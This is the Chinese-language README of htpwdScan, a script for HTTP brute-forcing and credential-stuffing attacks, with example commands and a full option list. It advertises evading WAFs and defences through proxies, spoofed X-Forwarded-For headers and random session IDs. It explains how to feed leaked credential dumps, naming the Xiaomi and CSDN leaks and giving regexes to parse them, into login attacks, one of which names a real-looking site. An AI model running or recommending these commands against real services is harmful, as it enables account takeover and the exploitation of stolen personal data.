 htpwdScan
=================================
**htpwdScan** 是一个简单的HTTP暴力破解、撞库攻击脚本. 它的特性：
- 支持批量校验并导入HTTP代理，低频撞库可以成功攻击大部分网站，绕过大部分防御策略和waf
- 支持直接导入互联网上泄露的**社工库**，发起撞库攻击
- 支持导入超大字典
### 简单示例 ###
* HTTP Basic认证
	>htpwdScan.py -u=http://auth.58.com/ -basic user.txt password.txt
	>导入用户名密码字典即可

* 表单破解
	>htpwdScan.py -f post2.txt -d user=user.txt passwd=password.txt -err="success\":false"
	>从 post2.txt 导入抓的http包，user和passwd是需要破解的参数，而 user.txt password.txt 是保存了密码的字典文件
	>**success":false** 是选择的失败标记，标记中若有双引号，请记得用右斜杠 \ 转义

* GET参数破解
	>htpwdScan.py -d passwd=password.txt -u="http://xxx.com/index.php?m=login&username=test&passwd=test" -get -err="success\":false"
	> 使用-get参数告诉脚本此处是GET请求

* 撞库攻击
	>htpwdScan.py -f=post.txt -database loginname,passwd=xiaomi.txt -regex="(\S+)\s+(\S+)" -err="用户名或密码错误" -fip
	>htpwdScan.py -f=post.txt -database loginname,passwd=csdn.net.sql -regex="\S+ # (\S+) # (\S+)" -err="用户名或密码错误" -fip
	>使用小米和csdn库发起撞库攻击。post.txt是抓包的HTTP请求
	>参数-regex从文件提取参数的正则表达式，此处需分组，分组的方式是使用括号()
	>小米的数据格式是"xxx@163.com xxxxxxx"对应的regex格式为"(\S+)\s+(\S+)"
	>"(\S+)\s+(\S+)"指定第一个非空字符串填充loginname，第二个非空字符串填充passwd
	>csdn的数据行格式是"zdg # 12344321 # zdg@csdn.net"对应的regex格式为"(\S+) # (\S+)"
	>#号前面的非空字符串填充loginname，#号后面的非空字符串填充passwd
	>注意：-regex表达式分组与参数的顺序一一对应
	>-fip：启用伪造随机IP

* 校验HTTP代理
	> htpwdScan.py -u=http://www.baidu.com -get -proxylist=available.txt -checkproxy -suc="百度一下"
	>通过proxylist参数中的代理列表文件一个个去访问百度，如果匹配到百度一下这个字符串说明该代理服务器可用

## 完整说明 ##
	脚本支持的小功能较多，建议使用"-debug"参数查看HTTP请求是否有问题
	usage: htpwdScan.py [options]

	optional arguments:
	  -h, --help            显示帮助
	
	Target:(设定目标)
	  -u REQUESTURL		设定目标URL, 示例：-u="https://www.test.com/login.php"
	  -f REQUESTFILE			从文件导入HTTP请求
	  -https							当使用-f从文件导入HTTP请求时，启用https协议
	  -get							使用GET方法，默认：POST
	  -basic  [ ...]					HTTP Basic爆破。示例：-basic users.dic pass.dic
	
	Dictionary:(字典选项)
	  -d Param=DictFile [Param=DictFile ...]
			设定字典文件，支持哈希函数如md5, md5_16,sha1。示例：-d user=users.dic pass=md5(pass.dic)
	
	Detect:(标记处理)
	  -no302								无视302跳转, 默认302敏感
	  -err ERR [ERR ...]				响应文本破解失败标记，示例：-err "user not exist" "password wrong"
	  -suc SUC [SUC ...]				响应文本中的破解成功标记，示例：-suc "welcome," "admin"
	  -herr HERR						响应HTTP头的破解失败标记
	  -hsuc HSUC						响应HTTP头的破解成功标记
	  -rtxt RetryText					响应文本中的重试标记，出现则重试请求，示例：-rtxt="IP blocked"
	  -rntxt RetryNoText				响应文本中的重试标记，未出现则重试请求，示例：-rntxt="<body>"
	  -rheader RetryHeader		响应头中的重试标记，出现则重试请求，示例：-rheader="Set-Cookie:"
	  -rnheader RetryNoHeader	响应头中的重试标记，未出现则重试请求，示例：-rheader="HTTP/1.1 200 OK"
	
	Proxy and spoof:(代理和欺骗)
	  -proxy Server:Port			设定少量HTTP代理，示例：-proxy=127.0.0.1:8000,8.8.8.8:8000
	  -proxylist ProxyListFile	从文件批量导入HTTP代理，示例：-proxylist=proxys.txt
	  -checkproxy					检查代理服务器的可用性，可用代理输出到001.proxy.servers.txt
	  -fip								生成随机X-Forwarded-For头欺骗服务器
	  -fsid FSID						生成随机session ID，示例：-fsid PHPSESSID
	  -sleep seconds			每次HTTP结束等待seconds秒，避免IP被服务器屏蔽

	Database attack:(爆破字典)
	  -database DATABASE	导入社工库中的数据，示例：-database user,pass=csdn.txt
	  -regex REGEX				从社工库中提取数据的正则表达式，必须分组。示例：-regex="(\S+)\s+(\S+)"
	
	General:
	  -t THREADS		工作线程数，默认50
	  -o OUTPUT		输出文件，默认: 000.Cracked.Passwords.txt
	  -debug				进入debug模式检查HTTP请求和HTTP响应
	  -nov					只显示破解成功的条目，不显示进度
	  -v						显示程序版本号

### 反馈 ###

使用中若发现问题，请反馈给我。  my[at]lijiejie.com [http://www.lijiejie.com](http://www.lijiejie.com)

